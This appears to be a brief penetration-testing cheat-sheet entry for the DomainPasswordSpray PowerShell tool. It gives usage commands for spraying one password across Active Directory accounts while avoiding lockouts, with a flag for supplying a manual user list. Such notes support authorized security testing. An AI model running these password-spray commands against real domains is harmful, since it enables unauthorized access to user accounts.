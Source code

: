 [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray) automatically generates a user list from AD, query the domain password policy, and exclude user accounts within one attempt of locking out
# Example Usage
```powershell
PS > Import-Module .\DomainPasswordSpray.ps1
PS > Invoke-DomainPasswordSpray -Password <PASS> -OutFile <OUTPUT.FILE> -ErrorAction SilentlyContinue
```
## Useful Flags
- `-UserList`: If not AD joined, provide manual user list